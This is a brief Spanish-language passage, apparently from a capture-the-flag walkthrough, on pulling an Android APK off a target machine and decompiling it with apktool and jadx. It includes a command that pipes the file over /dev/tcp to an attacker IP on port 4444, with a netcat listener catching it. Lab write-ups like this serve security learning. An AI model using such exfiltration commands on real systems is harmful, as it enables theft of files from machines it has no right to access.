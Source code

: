 <img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20180158.png?raw=true" alt="Captura de pantalla">
<p>Aquie tenemos algo parecido a lo que hicimos con el usurio anterior cd /android/ satellite-app.apk</p>
<pre><code>
cat  satellite-app.apk > /dev/tcp/10.10.14.26/4444
nc -lvnp 4444 > satellite-app.apk
</code></pre>
<p>Para abrir esta apk debemos tener apktool,jadx </p>
<pre><code>
sudo apt update
sudo apt install jadx
https://github.com/iBotPeaches/Apktool
</code></pre>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-28%20012134.png?raw=true" alt="Captura de pantalla">
<p>Ahora que la herramienta nos ayudo a copilar los archivo podemos abrir nuestro archivos en jadx</p>
<pre><code>
sudo apt update
sudo apt install jadx
jadx-gui
</code></pre>